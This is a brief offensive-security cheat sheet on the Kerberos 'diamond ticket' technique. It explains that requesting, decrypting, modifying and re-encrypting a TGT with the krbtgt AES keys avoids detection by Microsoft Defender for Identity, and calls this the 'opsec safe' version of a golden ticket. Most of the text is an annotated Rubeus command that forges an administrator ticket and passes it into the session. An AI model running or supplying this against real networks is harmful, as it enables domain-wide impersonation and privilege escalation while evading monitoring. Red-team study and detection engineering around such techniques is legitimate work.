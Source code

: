 - When we forge a `diamont ticket`, there is no pre-auth request corresponding to the forged ticket. This is an anomaly and can be detected by MDIs.
- To bypass this, we can request a TGT, decrypt it, modify if, then re-encrypt it, using the AES keys of the `krbtgt` account.
- Diamond ticket is the opsec safe version of the golden ticket.
### Rubeus
```powershell
Rubues.exe diamond
	/krbkey:<aes-key> # krbtgt aes account
	/user:<username> # user to use for as-req
	/password:<password> # password for the user to use for as-req
	/enctype:aes
	/ticketuser:administrator # user to create forged ticket for
	/domain:<domain-fqdn> # fqdn of the domain
	/dc:<dc-fqdn> # fqdn of the domain controller
	/ticketuserID # impersonated user ID, RID of administrator
	/groups
	/createnetonly:C\windows\system32\cmd.exe # logon type 9, only net requests.
	/show
	/ptt
	# instead of the passsing username & password, we can use
	/tgtdeleg # this will use the current user, and does not require password
```